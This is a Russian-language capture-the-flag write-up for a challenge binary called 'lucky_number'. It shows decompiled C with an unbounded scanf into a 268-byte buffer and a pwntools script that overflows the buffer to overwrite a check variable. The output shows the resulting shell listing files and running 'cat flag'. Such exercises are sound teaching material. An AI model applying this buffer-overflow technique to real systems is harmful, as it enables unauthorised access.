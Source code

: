 ```c
void main(void)

{
  undefined local_118 [268];
  int local_c;
  
  local_c = 0x13371337;
  puts("The Lottery Ball will grant access to the treasure chest if you bravely pass the challenge!"
      );
  fflush(stdout);
  fwrite("Enter your ticket number: ",1,0x1a,stdout);
  fflush(stdout);
  __isoc99_scanf(&DAT_004020c7,local_118);
  if (local_c == -0x21013713) {
    win();
    fflush(stdout);
  }
  else {
    puts("No luck for you today!");
    fflush(stdout);
  }
                    // WARNING: Subroutine does not return
  exit(0);
}
```

Мы можем увидеть размер буффера прям в гидре у переменной `local_118` состовляет 268 байтов. Исходя из этого попробуем написать для переполнения буффера и перехода на нужную нам функцию. Будем использовать библиотеку [pwntools](https://github.com/Gallopsled/pwntools) для Python.

Вот сам скрипт:
```py
from pwn import *

io = process('./lucky_number')
# io = remote('localhost', 2371)
io.recvuntil(b'Enter your ticket number: ')
io.sendline(b'A'*268 + p64(0xdefec8ed))
print(io.interactive())
```

Здесь мы подключаемся сначала к файлу, чтобы проверить локально сможем ли мы получить флаг. `io.recvuntil(b'Enter your ticket number: ')` означает, что мы будем читать все что выводится консоль до момента когда нам предложат ввести значение. `io.sendline(b'A'*268 + p64(0xdefec8ed))` - эта строка как раз и является нашим payload. Здесь мы переполняем буфер 268 буквами "А" и после этого записываем в 64 битовую запись значение из условия, которая нам даст возможность перейти в функцию `win`. Запустим и проверим:

```bash
$python3 exploit.py 
[+] Starting local process './lucky_number': pid 470725
[*] Switching to interactive mode
Congratulations, you have passed the test of the Lottery Ball!
$ ls
docker-compose.yml  exploit.py    lucky_number  Makefile     WRITEUP.md
Dockerfile        flag    main.c          README.md
$ cat flag
```
